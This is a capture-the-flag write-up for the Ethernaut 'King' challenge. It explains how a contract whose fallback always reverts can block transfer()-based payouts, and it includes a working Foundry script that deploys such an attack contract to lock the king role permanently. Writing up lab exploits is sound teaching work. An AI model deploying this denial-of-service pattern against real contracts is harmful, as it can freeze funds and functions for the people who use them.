

in this challenge we are given this contract and our goal is to not let the level reclaim kingship after we submit the instance

<!--more-->


- **Platform**: Ethernaut
- **Challenge**: King
- **Category**: Blockchain


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

this means after we submit the instance, the challenge will call `receive` again and reclaim kingship, so we should lock the `receive` function

if we send ether using a contract that has a fallback function, we will claim kingship, and then the challenge will call `receive` to reclaim kingship so it will execute our fallback function because of this line:

```solidity
payable(king).transfer(msg.value);
```

if our fallback function reverts, the whole execution of `receive` will revert because they are using `transfer()` so they can't reclaim ownership and this is the goal

first lets check how much ether we should send to claim kingship:



this is equal to 0.001 ether, so we send 0.001 ether using a contract that has a fallback function that reverts, here is the script for that:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";

contract attack {
  King king;
  constructor(King _king) payable {
    king = _king;
    (bool result,) = payable(address(king)).call{value : msg.value}("");
  }

  fallback() external payable {
    revert();
  }

}

contract Solver is Script {
  King instance = King(payable(0xafbFBAF1a755e8AD959b3Ab69Bd280F4aE514c86));

  function run() external {
     vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
     console.log(instance._king());
     attack p = new attack{value : 0.001 ether}(instance);
     console.log(instance._king());
  }
}
```

gg the challenge is solved
